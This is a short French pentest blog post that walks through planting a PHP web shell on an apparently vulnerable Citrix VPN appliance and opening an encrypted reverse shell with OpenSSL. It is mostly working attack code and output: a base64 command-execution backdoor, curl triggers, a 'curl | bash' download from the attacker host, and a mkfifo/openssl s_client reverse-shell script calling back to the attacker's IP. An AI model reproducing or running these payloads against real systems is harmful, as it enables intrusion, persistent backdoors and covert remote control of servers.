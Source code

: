 ```yaml
---
weight: 4
title: "Reverse shell via openssl"
date: 2020-11-28T21:57:40+08:00
draft: false
author: "Maki"
authorLink: "https://www.maki.bzh"
description: "Simple reverse shell using OpenSSL."
images: []
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["openssl", "pentest", "reverse shell"]
categories: ["Shorts"]

lightgallery: true
---
```


## Création d'un Python HTTPS server

```python
from http.server import HTTPServer, SimpleHTTPRequestHandler
import ssl

httpd = HTTPServer(('0.0.0.0', 4443), SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, certfile='./cert_serv.pem', server_side=True)
httpd.serve_forever()
```

Création du certificat TLS:

```bash
openssl req -new -x509 -keyout cert_serv.pem -out cert_serv.pem -days 365 -nodes
```

Utilisation:

```bash
python2 ./https.py
```

## Code backdoor

Fichier "back.php": 

```php
<?php system(base64_decode($_POST['x'])); ?>
```

Test de la backdoor:

```bash
(host) -> docker run -v ${PWD}:/opt/src --rm -ti php:alpine /bin/ash

(docker) -> # ip a s eth0
23: eth0@if24: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.4/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
(docker) -> # cd opt/src
/opt/src # php -S 0.0.0.0:1337
[Fri Feb 21 11:37:57 2020] PHP 7.4.2 Development Server (http://0.0.0.0:1337) started
```

Envoi de la commande curl:

```bash
(host) -> curl -k http://172.17.0.4:1337/back.php -d "x=`echo 'id' | base64`"

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

## Exploitation de la RCE et upload de la backdoor

Lancer le serveur python https:

```bash
python ./https.py
```

Avec le tool de mpgn:

```bash
(host) -> command > curl -k https://192.168.55.1:4443/back.php -o /var/vpn/themes/back.php
[+] Adding bookmark 7QDFBBVO4SZ9.xml
[+] Bookmark added
[+] Result of the command: 

```

Trigger de la backdoor:

```bash
(host) -> curl -k https://192.168.55.123/vpn/themes/back.php -d "x=$(echo 'id' | base64)"

uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

## Reverse shell openssl

Check si openssl est installé:

```bash
(host) -> curl -k https://192.168.55.123/vpn/themes/back.php -d "x=$(echo 'which openssl' | base64)"

/usr/bin/openssl
```

Génération d'une paire de clé pour le rev shell:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout priv.key -out cert.crt
```

Copie du certificat dans le dossier du serveur https:

```bash
cp cert.crt PATH/TO/https
```

Ouverture de la socket openssl:

```bash
openssl s_server -quiet -key priv.key -cert ../https/cert.crt -port 8443
```

Script pour trig le reverse shell openssl

```bash
#!/bin/sh

IP_ATTACKER="192.168.55.1"
REMOTE_CRT_PATH="/var/vpn/themes/cert.crt"
OPENSSL_PATH=$(which openssl)

curl -k https://${IP_ATTACKER}:4443/cert.crt -o ${REMOTE_CRT_PATH}

mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ${OPENSSL_PATH} s_client -quiet -CAfile ${REMOTE_CRT_PATH} -verify_return_error -verify 1 -connect ${IP_ATTACKER}:8443 > /tmp/s; rm /tmp/s
```

Trigger du rev shell TLS:

```bash
(host) -> curl -k https://192.168.55.123/vpn/themes/back.php -d "x=$(echo 'curl -k https://192.168.55.1:4443/revopenssl.sh | bash' | base64)"
```

Dans le terminal avec le openssl en attente: 

```bash
(host) -> openssl s_server -quiet -key priv.key -cert ../https/cert.crt -port 8443  
sh: can't access tty; job control turned off
(citrix) -> $ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```
